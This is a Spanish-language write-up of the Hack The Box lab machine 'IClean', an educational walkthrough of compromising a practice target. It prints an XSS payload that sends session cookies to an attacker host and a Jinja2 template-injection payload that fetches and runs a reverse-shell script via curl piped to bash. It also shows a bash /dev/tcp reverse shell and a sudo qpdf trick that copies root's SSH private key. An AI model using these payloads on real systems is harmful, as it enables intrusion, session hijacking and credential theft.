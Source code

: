 ```yaml
---
layout: single
title: IClean - Hack The Box
excerpt: ""
date: 2024-6-5
classes: wide
header:
  teaser: /assets/images/htb-writeup-iclean/iclean_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - CVE-2021-31630


---
```


![](/assets/images/htb-writeup-iclean/iclean_logo.png)
# PortScan

```java
# Nmap 7.94SVN scan initiated Tue Jun  4 16:55:14 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.12
Nmap scan report for 10.10.11.12
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  4 16:55:24 2024 -- 1 IP address (1 host up) scanned in 10.29 seconds
```

# Sitio Web

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163238.png)

Vemos un **nav** con su respectivo **Login**, intenté ingresar con credenciales por defecto, incluso llevar a cabo un **STTI** blind ya qué por detrás está corriendo un **python**, entre otras técnicas para poder bypassear o ejecutar código a través del Login con **Burpsuite**, pero no logré nada, seguí indagando en la página principal.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163407.png)

Vemos que tenemos en la página un apartado para solicitar un presupuesto para la limpieza.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605163446.png)

Intercepto esta solicitud con **Burpsuite** para llevar a cabo intentos de posibles vulnerabilidades.. de primero se me ocurre **STTI**, intenté varias maneras pero no logré nada, seguí intentando...


Finalmente, pude llevar a cabo un **XXS** tras varios intentos fallidos, ya que la **DATA** tramitada para las variables debe ser **URLencodeada**, y la respuesta del servidor no muestra nada para guiarnos, así que fue a ciegas mediante un servidor en local con Python, para ver sí lográbamos llevar a cabo la **XXS**.

1. Nos montamos servidor en local con python.
```bash
python3 -m http.server 80
```

2. Payload utilizado en la solicitud para la variable "**service**".
```bash
<script+src%3d"http%3a//10.10.14.x/test"></script>
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605164714.png)

![](/assets/images/htb-writeup-iclean/Pasted image 20240605164722.png)

viendo qué estamos pudiendo llevar a cabo un **XSS**, se me ocurre tratar de robar la cookie de sesión, es decir un **cookie hijacking**, para poder loguearnos en el **Login** que vimos al principios, así que sustituyo el payload por éste:
```bash
<img+src%3dx+onerror%3dfetch('http%3a//10.10.14.3/'%2bdocument.cookie)%3b>
```

obteniendo así lo que sería una cookie de sesión:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605165222.png)

con el nombre de su variable, así que procedo a remplazar esto en mi navegador, en mi caso uso **Firefox**, es tan fácil como ir a la WEB, hacer **CTRL + SHIFT + C**, luego ir a **Storage** > **Cookies** > **+**, y cambiamos los valores tal que así:

![](/assets/images/htb-writeup-iclean/Pasted image 20240605165539.png)

o también podríamos usar la extensión de navegadores **"cookie-editor"**.

Lamentablemente, al ir a **Login**, recargando no logro nada, pero hago un **fuzzing** rápido a directorios, ya que a lo mejor con la cookie no me redirige directamente, usaré la herramienta "**GoBuster**" para esto.
```bash
❯ gobuster dir -u http://capiclean.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
===============================================================

/about                (Status: 200) [Size: 5267]
/login                (Status: 200) [Size: 2106]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/logout               (Status: 302) [Size: 189] [--> /]
/dashboard            (Status: 302) [Size: 189] [--> /]
```

descubriendo un directorio "**/dashboard**", así que con la cookie seteada procedo a ir a éste directorio...
![](/assets/images/htb-writeup-iclean/Pasted image 20240605170417.png)

vemos qué estamos ante un **Sistema de factura,** el cual podemos escanear **códigos QR's**, editar servicios, entre otras cosas... me pongo a investigar & probar cosas..

empiezo generando una factura..

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171335.png)

eso me genera un **ID**, intuyo que este ID lo necesitaremos para algo, sigo indaganado..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605171416.png)

el **ID** aparentemente es para generar un **QR**, así que lo pongo acá.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605171538.png)

veo que ahora podemos generar un Escaneable con el link del QR, lo pongo...

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171702.png)

generándose esto, me da por curiosear aquí ya que veo números para tratar de llevar a cabo un **STTI**, lo intercepto con **BurpSuite**.

![](/assets/images/htb-writeup-iclean/Pasted image 20240605171802.png)

en esa **DATA** pruebo en la variable del **QR** inyectar una operación básica **SSTI**..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605172955.png)
![](/assets/images/htb-writeup-iclean/Pasted image 20240605173011.png)

y estamos llevando a cabo un **STTI** exitosamente, pero lo está convirtiendo en **base64**, ya sabiendo esto podría entablarme una **Reverse Shell** de la siguiente manera:

1. Nos creamos un archivo con nombre "**revshell**", con esto dentro:
```bash
#!/bin/bash
bash -c 'bash -i >&/dev/tcp/10.10.14.x/PORT 0>&1'
```

2. En el mismo directorio del "**revshell**" nos montamos un servidor Python.
```python
python3 -m http.server 80
```

3. Abrimos un puerto en escucha para recibir la **Reverse Shell:**
```bash
nc -nlvp PORT
```

5. Usamos este payload en la solicitud:

```python
{ {request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl IP:PORT/revshell | bash")|attr("read")()} }
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605173635.png)

logrando acceso a la máquina, sólo quedaría darle [Tratamiento a la TTY]()(https://4uli.github.io/tratamiento-tty/#).


# Escalada de Privilegios #1 

como **www-data**, miro el directorio Home para ver posibles usuarios, descubriendo así a "**consuela**", indago en el directorio del la app, viendo el **"app.py"** detalladamente descubro esto:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174045.png)

descubriendo las credenciales de la **DB** en texto claro, así qué procedo a buscar que puertos que estén en uso que coincidan con lo que usan las DB's por defecto con:
```bash
ss -tulnp
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605174153.png)
viendo que está abierto el **:3306** que suele ser **MySQL**, así que intento conectarme a **MySQL** en local con estas créndeciales.
```bash
mysql -u iclean -p
```

![](/assets/images/htb-writeup-iclean/Pasted image 20240605174435.png)

logrando conectarnos a la base de datos, así que ahora veré las tablas & sus contenidos a ver que encuentro...
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174526.png)

encontrándome esto en la tabla **"users"** de la db "**capiclean**", las contraseñas pero hasheadas, pruebo en [hashes.com](https://hashes.com/en/decrypt/hash) a ver sí es posible desencriptarla, empecé por la de admin pero no funcionó, así que pruebo con el hash de consuela..
![](/assets/images/htb-writeup-iclean/Pasted image 20240605174919.png)

logrando desencriptar la contraseña, ahora pruebo estas credenciales para convertirme en "**consuela**", logrando acceso.

# Escalada de Privilegios #2

Como "**consuela**" listo por **SUDOERS**, viendo ésto:
![](/assets/images/htb-writeup-iclean/Pasted image 20240605175042.png)

qué podemos ejecutar el aparente binario "**qpdf**" como quién queramos, así que es una potencial manera de escalar a **ROOT**, no tengo idea qué es **qpdf** así que hago una investigación en Internet, encontrándome con su [DOCUMENTACIÓN.](https://qpdf.readthedocs.io/en/stable/cli.html#basic-invocation)

y usando ésta linea:
```bash
sudo /usr/bin/qpdf --empty /tmp/pwned.txt --qdf --add-attachment /root/.ssh/id_rsa --
```

crearemos un archivo en el "**tmp**" con la copia de la **id_rsa** de **ROOT**.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605180556.png)

nos copiamos esta clave en nuestra máquina, dándole permisos "**600**" y podremos conectarnos.
![](/assets/images/htb-writeup-iclean/Pasted image 20240605180657.png)
